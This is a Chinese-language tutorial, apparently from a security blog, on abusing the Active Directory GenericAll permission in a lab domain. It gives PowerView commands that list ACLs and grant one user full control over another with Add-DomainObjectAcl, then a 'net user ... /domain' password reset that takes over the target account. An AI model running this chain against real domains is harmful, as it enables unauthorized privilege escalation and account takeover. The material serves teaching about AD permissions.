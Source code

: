 ### <a class="reference-link" name="GenericAll"></a>GenericAll

GenericAll在安全描述符中的Access Mask中进行标识，是包含了所有其他权限的权限。授予对目标对象的完全控制权，包括WriteDacl 和 WriteOwner 特权。可以使用PowerView中的Add-DomainObjectAcl进行利用。下面举例看一下如何给一个User对象添加一条GenericAll的ACE

#### <a class="reference-link" name="GenericAll%20on%20User"></a>GenericAll on User

使用zhangs账户和xxm账户做演示：<br>
两个账户的SID分别为：

```
zhangs:
 S-1-5-21-3305457972-2547556381-742707129-1604
 xxm:
 S-1-5-21-3305457972-2547556381-742707129-1105
```

这里使用zhangs账户，所在的主机是win2012，然后使用PowerView的函数Get-ObjectACL查看对zhangs具有GenericAll权限的项

```
Get-ObjectAcl -SamAccountName zhangs -ResolveGUIDs | ? `{`$_.ActiveDirectoryRights -eq "GenericAll"`}`
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t019bf9c89de80a7fb2.png)

在看一下xxm的

```
Get-ObjectAcl -SamAccountName xxm -ResolveGUIDs | ? `{`$_.ActiveDirectoryRights -eq "GenericAll"`}`
```

[![](https://p1.ssl.qhimg.com/t01a17a558ef4827494.png)](https://p1.ssl.qhimg.com/t01a17a558ef4827494.png)

然后在域控dc2012上设置xxm账户的DACL,添加对xxm的完全控制(GenericAll)权限，也可以使用powerviewer命令：

```
Add-DomainObjectAcl -TargetIdentity xxm  -PrincipalIdentity zhangs -Rights All -Verbose
```

[![](https://p3.ssl.qhimg.com/t01b6eb0ce27e506526.png)](https://p3.ssl.qhimg.com/t01b6eb0ce27e506526.png)

再在win2012上使用之前的命令查看ActiveDirectoryRights属性等于GenericAll的acl发现多了一条

[![](https://p1.ssl.qhimg.com/t01157b04f7fabe3241.png)](https://p1.ssl.qhimg.com/t01157b04f7fabe3241.png)

这条ACL的含义是：<br>
zhangs账户对xxm账户具有完全管理(GenericAll)权限<br>
在设置ACL之前和设置之后使用zhangs账户权限设置xxm账户的密码可以看到区别(设置完成之后会立即生效)

```
net user xxm admin123! /domain
```
